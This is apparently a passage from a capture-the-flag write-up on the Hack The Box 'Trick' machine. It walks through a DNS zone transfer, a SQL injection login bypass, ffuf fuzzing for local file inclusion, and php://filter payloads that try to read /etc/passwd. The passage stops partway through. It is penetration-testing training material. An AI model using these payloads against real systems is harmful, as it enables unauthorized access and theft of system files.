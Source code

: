 We get nothing from both. Attempt to zone transfer:

```bash
dig axfr trick.htb @10.129.227.180

result:
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
```

We found a new subdomain. Upon visiting it is a login page. We have landed on 

`Admin | Employee's Payroll Management System`. Let’s see if this login is vulnerable to sql injections. We can either do it manually testing it first or we can sql inject it. Let’s try doing it manually. 

```bash
#In the login form

admin' OR 1=1-- -
123
```

We are logged in.

Looking through the website, it seems to be using parameters to load web pages:

![image.png]({{ site.baseurl }}/assets/trick/image.png)

Let’s see if it’s vulnerable to local file inclusion.

We can try fuzzing it with ffuf and jhaddix wordlist:

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://preprod-payroll.trick.htb/index.php?page=FUZZ' -fw 1274
```

We see a class:

```bash
<script>
	$('.nav-
/bin/cat /etc/passwd').addClass('active')
</script>

php://filter/read=convert.base64-encode/resource=/etc/passwd
```

This does not work. Let’s try a page that we know exists:

```bash
php://filter/read=convert.base64-encode/resource=deductions
```
